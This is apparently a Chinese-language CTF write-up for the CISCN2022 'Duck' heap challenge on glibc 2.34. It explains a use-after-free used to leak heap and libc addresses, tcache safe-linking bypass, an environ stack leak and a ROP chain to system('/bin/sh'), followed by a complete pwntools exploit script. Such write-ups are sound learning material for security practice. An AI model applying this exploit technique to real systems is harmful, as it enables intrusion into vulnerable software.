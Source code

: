 ### CISCN2022 Duck Write Up

该题目附件我已经上传到Github，有需要的可以下载，复现这题时，我是使用的NSSCTF提供的远程环境。

此题是一道libc2.34的题，libc2.34与2.33最大的不同就是移除了以往常用的malloc_hook，free_hook等hook函数，导致利用上较为困难，2.34与2.33一样，chunk的fd指针都采用了异或加密，在申请chunk时便会异或解密，所以当我们改写fd指针时，只需要将泄露出的堆的基地址右移12位后与当前地址异或即可。glibc中采用的异或加密的规则并不难：将堆的基地址右移12位后与当前地址异或。

这道题逆向难度并不大，通过IDA静态分析就可以很明显的看出，在free时存在UAF，所以可以很轻松的泄露堆的基地址（用于异或加密）与libc。

先多申请几个chunk（大于8个），把最后一个留下其余的全部释放，并用0号来泄露堆的基址，将泄露的地址左移12位即可得到堆的基地址。由于chunk的大小为0x110，所以在填满tcache后，剩下的不与top chunk相邻的chunk将放入unsorted bin中，这也是前面要申请大于8个chunk的原因，然后再通过UAF泄露main arena的地址，从而泄露libc。

泄露libc之后找到environ，通过UAF改写tcache的fd指针，并将其fd指针改为environ的地址，分配出去以后，由于environ保存的是当前进程的环境变量，这里面存放了栈上的地址，泄露出environ的值后并计算出edit的地址之后，再次修改fd指针，分配到edit返回地址之后写入ROP调用链，(**注意，由于是64位的程序，前六个参数通过寄存器传递，所以需要控制RDI寄存器来传入"/bin/sh\x00"作为system的参数**)即可getshell。(我用one_gadget去打没有成功)

***注：此处system若是无法使用，可改为execve，效果应该是一样的***

最终exp如下：

```python
from pwn import *
io=process('./pwn')
#io=remote('1.14.71.254',28045)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')

context(arch='amd64', os='linux')

def add():
    io.recvuntil('Choice: ')
    io.sendline('1')

def delete(index):
    io.recvuntil('Choice: ')
    io.sendline('2')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def show(index):
    io.recvuntil('Choice: ')
    io.sendline('3')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))

def edit(index,size,content):
    io.recvuntil('Choice: ')
    io.sendline('4')
    io.recvuntil('Idx: \n')
    io.sendline(str(index))
    io.recvuntil('Size: \n')
    io.sendline(str(size))
    io.recvuntil('Content: \n')
    io.sendline(content)


for i in range(9):
    add()

for i in range(8):
    delete(i)  

show(7)

main_arena = u64(io.recv(6).ljust(8, b'\x00'))
main_arena = main_arena - 96

libc_addr= main_arena-libc.sym['main_arena']

print("libc_addr: " + hex(libc_addr))
print("main_arena: " + hex(main_arena))



show(0)
heap_base=u64(io.recv(5).ljust(8,b'\x00'))
heap_base=heap_base<<12
print("heap_base: "+hex(heap_base))

for i in range(5):
    add()

environ_addr=libc_addr+libc.sym['environ']

print("environ_addr: " + hex(environ_addr))

edit(1,0x10,p64(environ_addr^(heap_base>>12))+p64(0))

add()         
add()         

show(15)
stack_addr = u64(io.recv(6).ljust(8, b'\x00'))
stack_addr = stack_addr - 0x168

print("stack_addr: "+ hex(stack_addr))

delete(9)
delete(10)
edit(10,0x10,p64(stack_addr^(heap_base>>12))+p64(0))

add()  
add()  

bin_sh_addr=libc_addr+next(libc.search(b'/bin/sh'))

sys_addr = libc_addr + libc.sym['system']
pop_rdi_ret = libc_addr + next(libc.search(asm('pop rdi;ret;')))

#pop_rdi_ret=0x1703

#one_gadget=libc_addr+0xda867

payload=p64(0)*3+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)

#payload=p64(0)*3+p64(one_gadget)

edit(17,0x30,payload)

io.interactive()
```

